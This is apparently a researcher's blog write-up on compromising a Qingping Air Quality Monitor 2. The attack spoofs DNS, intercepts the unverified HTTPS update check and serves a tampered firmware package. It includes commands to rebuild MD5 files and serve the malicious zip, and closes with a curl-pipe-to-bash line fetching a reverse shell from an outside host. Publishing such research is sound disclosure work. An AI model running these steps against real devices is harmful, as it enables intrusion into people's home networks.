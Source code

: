 ```yaml
---
layout: single
title: Hacking the Qingping Air Quality Monitor 2
date: 2025-08-13
classes: wide
header:
  teaser: /assets/images/qingping/1.jpeg
tags:
  - Exploit-Dev
  - Penetration Testing
  - IoT
---
```


I recently acquired a [Qingping Air Quality Monitor 2](https://www.qingping.co/air-monitor-2/overview) for monitoring indoor air quality. While I’ve been happy with the product, I’m inherently distrustful of IoT devices—especially those that connect to my home’s Wi-Fi network. So, I set out to investigate its functionality with the end goal of obtaining some form of command execution.

## Recon

Running a basic port scan on the device revealed that only port 53 was open, running `dnsmasq 2.85`:

![](/assets/images/qingping/2.png)

A quick search for this version shows a [2022 CVE](https://www.cvedetails.com/cve/CVE-2022-0934/) for a denial-of-service bug. However, this wasn’t of interest here.

Next, I wanted to see what web requests the device makes when connected to the internet. On my home network I use NextDNS, which offers functionality similar to Pihole (though any DNS logging solution would work). Once connected to Wi-Fi, the Qingping device sent several requests to the `*.cleargrass.com` domain.

As a web pentester, I immediately wanted to intercept and inspect these HTTP requests. To do this, I needed to MITM the device’s traffic. Fortunately, NextDNS (or Pihole) lets you add custom DNS entries, so I could map `*.cleargrass.com` to my laptop’s IP address and redirect traffic there. If your network doesn’t have this feature, [bettercap](https://www.bettercap.org/) can perform DNS spoofing.

![](/assets/images/qingping/3.png)

Starting a netcat listener on port 443 confirmed that HTTPS traffic for `*.cleargrass.com` now hit my laptop. The next challenge was intercepting the HTTPS requests. For this, I quickly vibe coded a small Python HTTPS server that proxies requests to Burp Suite on `127.0.0.1:8080`. The script is on my GitHub repo for this post.

First, generate an SSL certificate:
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=localhost"
```

Next, run the HTTPS server script with Burp Suite listening. 

```
sudo python3 https_tap.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem
```

Great, we are successfully able to intercept HTTP requests generated by the Qingping device. Interestingly, the device continues to function normally while being MITM'd, which potentially indicates that SSL certificate verification is disabled. One would expect that some sort of certificate pinning would be enforced to avoid this scenario.

![](/assets/images/qingping/4.png)

Note: Since we’ve remapped DNS for `*.cleargrass.com`, you’ll need to restore correct DNS resolution on your laptop so it can forward requests. One way is to temporarily set your DNS to `8.8.8.8` instead of NextDNS/Pihole. Alternatively, set up an SSH SOCKS proxy and configure Burp Suite to use it.

## System Update Functionality

With minimal exposed ports, the system update mechanism seemed the most promising attack surface. Within the device Settings > System Update, one can instruct the device to check for updates. The relevant HTTP request and response are shown below (note: at the time of writing this software version `4.5.6_0156` was the latest stable version).

![](/assets/images/qingping/5.png)

However, if we modify the outbound HTTP request to advertise a lower version, let's say `4.5.6_0155`, the web server responds with instructions to update the device.

![](/assets/images/qingping/6.png)

The HTTP response contains some key information. It tells the device a new version is available, it provides the software update's MD5 hash, the software update's URL location, and a brief description of the update. The next logical step is to inspect this software update package. The device then issues a request to the URL described in the prior HTTP request. This request and response are shown below:


![](/assets/images/qingping/8.png)

One interesting thing to note is that the ETag header contains the MD5 hash of the software update, which is also included in the GET request path.

Downloading and extracting the ZIP file reveals a certificate, several Bash scripts, another ZIP file, and a Linux ELF binary. Given that the device reboots after updating, the `ota.sh` script is likely executed during the update process.



![](/assets/images/qingping/7.png)

At this point, the attack path is clear: intercept the update process and deliver a modified package.

## Crafting our Malicious Update

As previously discussed, `ota.sh` seems like a good candidate to insert our own Bash commands. Let's try a `curl` command to a web server we control to see if these commands will be execution upon updating the software.

![](/assets/images/qingping/9.png)

Next we will also need to update the file `md5` with the new MD5 hash of `ota.sh`, below is a Bash command to achieve this:
```bash
rm -f md5
for f in *; do
  [ "$f" = "md5" ] && continue
  [ -f "$f" ] || continue
  md5 -q "$f" | awk -v n="$f" '{printf "%s  %s\n",$1,n}' >> md5
done
```

Next we can zip everything up with a zip command: `zip -X -9 -q -r ../malicious_update.zip .` 

Great, now we have crafted a malicious software update with an added Bash command. Once we supply this update to the device we should see a GET request to our web server.

## Delivering the Malicious Update
Since we can intercept HTTP requests and responses to the device, it is trivial to supply our own .zip file in the HTTP response to the update request. However, as discussed above there are a few additional pieces of information required in the HTTP response headers, such as the MD5 hash. To assist with this, I once again vibe coded a brief script that handles all the math and delivers the proper response.

The attack flow:
1. DNS spoof the `*.cleargrass.com` domain
2. Respond to the check update request with a new update
3. Replace the system update zip file with our own malicious zip

Let's see it in action. If all goes well we should see a curl request on our web server to `/qingping`. Starting the python HTTPS server:
```
 sudo python3 zip_supply.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem --zip-file ../malicious_update.zip
```

 On the device, initiate a system update. We can see the request come through to our fake update server.

 ![](/assets/images/qingping/11.png)

 After a few moments we see the HTTP request to our web server. Nice! 

 ![](/assets/images/qingping/12.png)

From here, obtaining a reverse shell is trivial. I personally had success modifying the shell command in `ota.sh` to `curl https://poc.cinzinga.com/qingping | bash` where the file `qingping` hosted a reverse shell.

 ![](/assets/images/qingping/13.png)

 ## Further Research

The Qingping Air Quality Monitor also integrates with a mobile app, which could be another interesting target. The device’s firmware contains numerous binaries that manage its functions. Analyzing these could uncover deeper vulnerabilities. 